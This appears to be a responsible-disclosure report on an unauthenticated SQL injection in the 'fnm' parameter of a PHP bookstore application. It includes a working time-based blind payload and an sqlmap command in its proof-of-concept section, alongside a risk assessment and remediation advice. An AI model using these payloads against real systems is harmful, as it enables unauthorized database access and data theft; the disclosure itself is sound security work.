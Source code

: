 # Bookstore Management System (PHP & MySQL) – SQL Injection Vulnerability

## 1. Overview

| **Item**            | **Details**                                                                                                       |
|---------------------|-------------------------------------------------------------------------------------------------------------------|
| **Project**         | Bookstore Management System (PHP & MySQL)                                                                         |  
| **Version**         | V1.0                                                                                                              |
| **Vulnerable File** | `/order_process.php`                                                                                              |
| **Vulnerability**   | SQL Injection                                                                                                     |
| **Root Cause**      | Direct usage of unvalidated input (`fnm` parameter) in SQL queries leads to malicious code injection.             |
| **Impact**          | Unauthorized DB access, data leakage, data tampering, potential system control, and service interruption.         |
| **Submitter**       | writerke                                                                                                          |
| **Vendor Site**     | [Homepage](https://1000projects.org/bookstore-management-system-php-mysql-project.html)                           |
| **Download Link**   | [Bookstore Management System](https://1000projects.org/wp-content/uploads/2023/01/Bookstore-Management-System.7z) |

---

## 2. Vulnerability Description

A critical SQL injection flaw was identified in the `/order_process.php` file of the **Bookstore Management System PHP MySQL Project**. Attackers can exploit the `fnm` parameter by injecting malicious SQL commands directly into database queries, bypassing required sanitation or validation. This allows unauthorized access to the underlying database, leading to:

- **Sensitive data theft**
- **Modification or deletion of critical information**
- **Escalation to full system compromise**

No authentication is required to exploit this vulnerability, significantly elevating the risk.

---

## 3. Technical Analysis

### 3.1 Payload & PoC

- **Vulnerable Parameter**: `fnm` (POST)
- **Vulnerability Type**: Time-Based Blind SQL Injection

<details>
<summary>Example Payload</summary>

```makefile
fnm=Hacker0xOne Blue' (SELECT 0x507a6e6b WHERE 9832=9832 AND (SELECT 7424 FROM (SELECT(SLEEP(5)))OdmC)) '
&add=1066 Front St
&pc=03102
&city=Manchester
&state=Select an option%E2%80%A6
&mno=17849382736
&sub=
```
</details>

<details>
<summary>sqlmap Test Command</summary>

```bash
sqlmap -u "localhost:9090/order_process.php" \
       --data="fnm=Hacker0xOne+Blue&add=1066+Front+St&pc=03102&city=Manchester&state=Select+an+option%E2%80%A6&mno=17849382736&sub=" \
       --batch --level=5 --risk=3 --random-agent \
       --tamper=space2comment --dbms=mysql --dbs
```
</details>

**Note**: The SQL injection succeeds if the application delays or processes unexpected queries, as shown in the attached testing screenshot:


<img width="1699" alt="image" src="https://github.com/user-attachments/assets/9db43879-a664-4500-9789-cce429a2a9b8" />



---

## 4. Risk Assessment

| **Risk Category**  | **Description**                                                                              |
|--------------------|----------------------------------------------------------------------------------------------|
| **Confidentiality**| Attackers could extract sensitive data from the database.                                    |
| **Integrity**      | Possibility of data tampering, unauthorized modifications, or deletions.                     |
| **Availability**   | Malicious queries or data corruption could lead to service interruptions or downtime.        |
| **Overall Severity** | **High** – Requires immediate attention due to ease of exploitation (no login needed).      |

---

## 5. Recommended Fixes

1. **Use Prepared Statements / Parameter Binding**  
   - Implement parameterized queries to avoid mixing user inputs with SQL logic.  

2. **Enforce Input Validation**  
   - Reject or sanitize suspicious inputs. Ensure the `fnm` field adheres to a defined format (e.g., no special characters).

3. **Restrict Database Privileges**  
   - Assign minimal privileges to the database user. Avoid using administrative accounts for standard operations.

4. **Conduct Regular Security Reviews**  
   - Periodically audit code and infrastructure to detect vulnerabilities early.  
   - Employ automated scanners and manual penetration testing for comprehensive coverage.

---

## 6. Additional Notes

- **Immediate Action**: Prompt patching is advised to mitigate ongoing risks.
- **Long-Term Plan**: Incorporate secure coding practices (e.g., input validation libraries, WAF deployment) to prevent similar issues.
- **Reference**: [Bookstore Management System Project](https://1000projects.org/bookstore-management-system-php-mysql-project.html)

---

**Disclaimer**:  
This report is intended solely for responsible disclosure to the impacted vendor or authorized party. Any unauthorized use or sharing of these findings is prohibited and may lead to legal consequences.
